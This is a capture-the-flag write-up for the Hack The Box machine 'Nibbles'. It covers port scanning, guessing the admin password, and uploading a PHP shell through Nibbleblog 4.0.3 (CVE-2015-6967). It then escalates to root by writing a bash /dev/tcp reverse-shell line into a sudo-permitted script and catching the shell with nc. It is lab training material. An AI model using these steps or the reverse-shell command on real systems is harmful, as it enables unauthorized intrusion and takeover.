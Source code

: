 ```yaml
---
title: Nibbles - Hack The Box
date: 2021-02-09 18:55:03
author: 7h3M0nk
author_url: https://twitter.com/7h3M0nk
categories:
   - HackTheBox
tags:
   - HackTheBox
   - WriteUp
   - Nibbles
---
```


How to crack Nibbles box without Metasploit. 

tl;dr

+ Nibbleblog v4.0.3 Code Execution
+ CVE-2015-6967 

<!--more-->

Solved by: [7h3M0nk](https://twitter.com/7h3M0nk) <!-- change username -->


A Linux box with IP 10.10.10.75 

## Enumeration

Let's start by doing a port scan. I am using nmap enumeratior, so doing a basic scan

```bash

┌──(kali㉿kali)-[~/HackTheBox/Nibble/10.10.10.75/nmap]
└─$ nmapenumertor 10.10.10.75 Basic
 Nmap 7.91 scan initiated Tue Feb  9 03:27:22 2021 as: nmap -Pn -sCV -p22,80 -oN nmap/Basic_10.10.10.75.nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done at Tue Feb  9 03:27:36 2021 -- 1 IP address (1 host up) scanned in 13.94 seconds

```

The box has two services one OpenSSH at port 22 and an Apache server at port 80. The Apache version mentioned here is vulnerable to the  shellshock vulnerability. On checking the http://10.10.10.75/cgi-bin/  , it's showing directory not found. 

Time to move on.

On checking the page source, I got the info


![Nibble Home](First.png)

Let's checkout the /nibbleblog directory.


![Nibble Blog](Second.png)

Time to get more info on Nibbles. Doing a serach on Nibble Blog landed me into a page which describes how one can upload a [shell](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/) to Nibble 4.0.3 version.

As per the blog, if I get admin access then I can upload a php shell.

Checking if admin.php exists.

![Nibble Admin Page](Third.png)

This is where I got stuck for a while, tried to login using some default passwords this got me blacklisted. Tried the page after a couple of minutes, not blacklisted anymore. Brute forcing won't work here. Need to guess!

Tried  admin:nibbles which worked got admin access. Pheeww!

## Exploit

Recreating the steps given in the blog. 

![Nibble Plugin Page](Fourth.png)

Uploading a [php shell](https://github.com/Arrexel/phpbash)

![Nibbles Shell upload](Fifth.png)

Moving to the plugin directory, and opening the shell and getting the user flag.

![Nibble Plugin directory](Sixth.png)

We don't have root access till now, let's check if the user has any binaries with sudo permission.

```bash
sudo -l

nibbler@Nibbles
:/home/nibbler# sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Nice! The directory personal/stuff is not present. Let's make one and add the file monitor.sh. 
We can use this to create a reverse shell and get the root flag.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff# touch monitor.sh;echo "#!/bin/bash" >> monitor.sh; echo "bash -i >& /dev/tcp/10.10.14.7/800 0>&1" >> monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff# chmod +x monitor.sh;sudo ./monitor.sh

┌──(kali㉿kali)-[~/bi0s]
└─$ sudo nc -nvlp 800
[sudo] password for kali: 
listening on [any] 800 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.75] 37638
bash: cannot set terminal process group (1328): Inappropriate ioctl for device
bash: no job control in this shell
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
root@Nibbles:/home/nibbler/personal/stuff# cd /home/
cd /home/
root@Nibbles:/home# ls
ls
nibbler
root@Nibbles:/home# cd /
cd /
root@Nibbles:/# cd /root/
cd /root/
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt

```

And that's how I solved Nibbles! 


 
